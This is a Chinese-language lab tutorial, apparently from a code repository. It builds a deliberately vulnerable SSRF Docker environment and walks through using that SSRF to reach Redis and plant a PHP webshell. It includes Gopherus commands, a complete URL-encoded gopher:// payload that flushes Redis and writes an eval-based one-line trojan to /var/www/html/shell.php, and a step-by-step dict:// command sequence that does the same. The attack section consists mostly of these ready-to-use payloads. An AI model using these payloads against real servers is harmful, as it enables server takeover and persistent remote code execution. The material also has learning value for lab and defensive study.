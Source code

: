 使用Docker进行环境的搭建,需要的文件我已经打包好了，如果没有docker环境的话需要安装(请使用linux系统)
1.  使用`tar xzvf ssrf.tar.gz`解压ssrf.tar.gz, 1.  `cd ssrf_dockerfile`,进入到解压的文件目录下 1.  构建镜像,`docker build -t ssrf:v1 .`  1.  Successfully built说明构建成功，也可以再使用`docker images`命令查看镜像是否存在  1.  `docker run -d -p 80:80 ssrf:v1`,启动镜像  1.  启动成功，访问127.0.0.1查看是否搭建成功  1.  漏洞点为ssrf.php，参数名为url，测试一下是否存在漏洞  
环境搭建完毕

### 2.2 漏洞复现(通过ssrf利用redis写入webshell)

#### 2.2.1 想要写入webshell的两个条件
1.  要知道网站的绝对路径 1.  redis有目录的写入权限 
#### 2.2.2 通过gopherus实现

这里是通过gopher协议进行利用

##### 0x00 Gopherus(gopher协议利用工具)

###### Gopherus简介

Gopherus下载地址

自己手动把攻击语句转换成Gopher协议的格式会很麻烦，这款工具里面内置了一些早就写好的利用语句，我们只需要学会如何使用它就可以很方便的写出一些我们需要的利用语句。

###### Gopherus可以生成的payload
1.  MySQL (Port-3306) 1.  PostgreSQL(Port-5432) 1.  FastCGI (Port-9000) <li> Memcached (Port-11211)<br/> If stored data is getting De-serialized by:
</li>1.  Redis (Port-6379) 1.  Zabbix (Port-10050) 1.  SMTP (Port-25) 
###### 命令
1.  `gopherus --exploit [mysql | postgresql | fastcgi | redis | smtp | zabbix | pymemcache | rbmemcache | phpmemcache | dmpmemcache]` 
exploit后面写要利用的服务就好了

###### 实际演示

这里将使用Gopherus这个工具生成利用语句,不了解的小伙伴可以先去看一下Gopherus那一段
1.  再phpinfo页面中我们可以看到站点的绝对路径为`/var/www/html`  1.  启动gopherus，`python gopherus.py --exploit redis`,shell写入方式选择phpshell  1.  然后填入绝对路径，这里刚好是默认的，回车就好  1.  然后填写要写入的内容,我这里写的一句话木马  1.  生成好了,如果执行成功他会再目录下生成shell.php这个文件  <li> 现在这个语句还不能马上拿去用，需要做一下处理`gopher://127.0.0.1:6379/_`这部分不用变，后面的复制,再拿去进行一次url编码,然后拼接回`gopher://127.0.0.1:6379/_`后面，我处理好的如下 
<ol>1.  `gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252430%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_REQUEST%255B8%255D%2529%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A` 
然后传参给url参数,回车

shell写入成功

#### 2.2.3 通过Dict协议实现

##### Dict协议使用注意事项
1.  Dict协议中可以用:代替空格 1.  ?会截断后面的内容(写马的情况下要想办法bypass “?”) 1.  dict协议一次只能发送一条数据 
##### 实际演示
1.  `dict://127.0.0.1:6379/flushall`,先清空所有的key  1.  `dict://127.0.0.1:6379/set:hack:'&lt;script language="php"&gt;@eval($_REQUEST[8]);&lt;/script&gt;'`,写入一句话木马到key中，这里最好进行一次url编码  1.  `dict://127.0.0.1:6379/config:set:dir:/var/www/html/`，设置工作目录  1.  `dict://127.0.0.1:6379/config set dbfilename hack.php`,设置持久化文件名为hack.php,这里把去掉了`:`用了空格，注意两者没有差别  1.  `dict://127.0.0.1:6379/save`,保存生成持久化文件  1.  成功  
再可以回显的情况下，其实也可以查看redis中的数据
